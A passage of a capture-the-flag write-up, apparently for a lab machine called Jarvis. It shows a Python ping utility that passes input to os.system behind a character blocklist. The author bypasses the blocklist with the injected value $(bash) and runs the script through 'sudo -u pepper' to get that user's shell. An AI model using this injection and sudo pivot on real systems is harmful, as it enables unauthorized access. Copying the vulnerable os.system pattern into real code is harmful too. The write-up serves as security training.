 ```
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.052 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.050 ms
64 bytes from 127.0.0.1: icmp_seq=5 ttl=64 time=0.123 ms
^C
--- 127.0.0.1 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4062ms
rtt min/avg/max/mdev = 0.050/0.367/1.508/0.571 ms

```

we will find parameter `-p` function let us type in IP address and then ping this machine.

And we check python script we will fount there are a vulnerability:

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

From `os.system('ping ' + command)`  we know it could be a command execution. Noted that '&', ';', '-', '`', '||', '|'` was forbinden on this type in, but if we can bypass it by using another type character, we could get command execution. 

However, It doesn’t check for the dollar sign (`$`), the dollar sign can be used to execute commands like this: `$(command)`

To escape that check, I used **$(bash)** to perform command execution to obtain a bash shell.

```
$(bash)
```

That works at our kali machine.

Let's do it on the victim machine.

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
$(bash)
```

But we find it was a completed shell, since it can't reply back for information:

```
    
<do -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(bash)
pepper@jarvis:/var/www/html$ whoami
pepper@jarvis:/var/www/html$ id
pepper@jarvis:/var/www/html$ 

```
